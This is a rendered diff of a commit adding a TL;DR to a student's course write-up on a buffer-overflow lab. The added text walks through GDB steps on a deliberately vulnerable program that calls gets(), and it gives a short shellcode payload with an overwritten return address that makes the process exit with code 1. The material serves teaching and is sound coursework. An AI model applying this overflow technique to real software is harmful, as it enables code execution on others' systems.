

Before and after one commit to MingoMango17/CMSC134-Writeups, a Markdown page: Machine_Problem_1/writeup.md, the part around one of its changes. Shown at 84% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
[Machine Problem 1] Added TL;DR before the main content

````diff
--- a/Machine_Problem_1/writeup.md
+++ b/Machine_Problem_1/writeup.md
@@ -8,6 +8,74 @@ author:
 ---
 
 # Buffer overflow to exit
+
+## TL;DR
+
+Open GDB
+
+```sh
+gdb vuln
+```
+
+Run the program once
+
+```
+(gdb) run
+```
+
+Then exit (CTRL+C) and dissassemble the symbol `vuln`
+
+```
+(gdb) disassemble vuln
+Dump of assembler code for function vuln:
+   0x5655617d <+0>:     push    %ebp
+   0x5655617e <+1>:     mov     %esp,%ebp
+   0x56556180 <+3>:     sub     $0x8,%esp
+   0x56556183 <+6>:     lea     -0x8(%ebp),%eax
+   0x56556186 <+9>:     push    %eax
+   0x56556187 <+10>:    call    0xf7c741b0 <_IO_gets>
+   0x5655618c <+15>:    add     $0x4,%esp
+   0x5655618f <+18>:    nop
+   0x56556190 <+19>:    leave
+   0x56556191 <+20>:    ret
+End of assembler dump.
+```
+
+Add a breakpoint on the first instruction and run it once again
+
+```
+(gdb) break *0x5655617d
+Breakpoint 1 at 0x5655617d: file vuln.c, line 3.
+(gdb) run
+Breakpoint 1, vuln () at vuln.c:3
+3	void vuln() {
+```
+
+Print the address of the variable `buffer`
+
+```
+(gdb) print &buffer
+```
+
+Craft the exploit with the shellcode payload and memory address of the `buffer`
+
+```
+\x31\xc0\x40\x89\xc3\xcd\x80\x90\x90\x90\x90\x90\x18\xcd\xff\xff
+```
+
+Execute the exploit inside GDB
+
+```
+(gdb) r <<< $(echo -ne "\x31\xc0\x40\x89\xc3\xcd\x80\x90\x90\x90\x90\x90\x18\xcd\xff\xff")
+```
+
+The program should terminate with the exit status code `1`
+
+```
+[Inferior 1 (process 1027954) exited with code 01]
+```
+
+---
 
 ## Introduction
 
````
Also changed, not shown: other parts of Machine_Problem_1/writeup.md (+7 -0 lines).
